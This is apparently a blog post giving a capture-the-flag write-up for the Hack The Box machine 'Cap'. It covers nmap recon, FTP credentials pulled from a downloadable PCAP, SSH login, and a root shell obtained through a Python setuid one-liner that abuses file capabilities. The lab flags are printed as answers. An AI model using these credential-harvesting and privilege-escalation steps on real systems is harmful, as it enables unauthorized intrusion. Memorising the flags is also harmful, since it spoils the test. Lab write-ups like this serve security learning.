 ```yaml
---
layout: post
title: HTB-Cap
date: 2025-09-19
tags: [HTB]
category: [CTF-Writeups]
---
```


# HTB — CAP: Quick Writeup

**IP:** `10.10.10.245`  
**Difficulty:** Easy  
**Skills:** enumeration • HTTP/PCAP analysis • SSH access • local privilege escalation

> **Summary:** Ports 21/22/80 were open. A downloadable PCAP from the web app contained FTP credentials (`nathan:Buck3tH4TF0RM3!`), allowing SSH access as `nathan` to capture the user flag. Root was obtained by abusing file capabilities on `/usr/bin/python3.8`.

---

## Table of contents
1. [Recon (nmap)](#recon-nmap)  
2. [User: web & PCAP analysis](#user)  
3. [Root: privilege escalation](#root)  
4. [Flags](#flags)  

---

## Recon (nmap)

**Command used**

```bash
nmap 10.10.10.245
```

**Result**

``` bash
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
```


---

## User

### Steps
1. Open: `http://10.10.10.245/`  
2. Click **Security Snapshot** → redirected to `/data/11`  
3. Visit `/data/0` and **Download** the PCAP 
4. Inspect the PCAP to find FTP credentials  
5. SSH in with found credentials and retrieve the user flag

### PCAP inspection (examples)
Use Wireshark:

Wireshark display filter:

```bash
ftp || ftp-data
```


**Credentials found**
- **User:** `nathan`  
- **Password:** `Buck3tH4TF0RM3!`

**SSH in**

```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

**User flag**

```bash
cat /home/nathan/user.txt
# e69b72870c3be895f01d4255f15d16cd
```

---

## Root

### Discovery
Run linPEAS to search for local privilege escalation vectors:

linPEAS showed:

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```


This indicates `python3.8` has `CAP_SETUID`, allowing it to call `setuid(0)`.

### Exploit (one-liner)

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

**Verify root**

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
# 7d7c67f7ee617a0a28ec5545cb9a75e2
```

---

## Flags

- **User:** `e69b72870c3be895f01d4255f15d16cd`  
- **Root:** `7d7c67f7ee617a0a28ec5545cb9a75e2`

---

*This writeup documents a CTF box and is for educational purposes only. Do not perform these actions against systems you do not own or have permission to test.*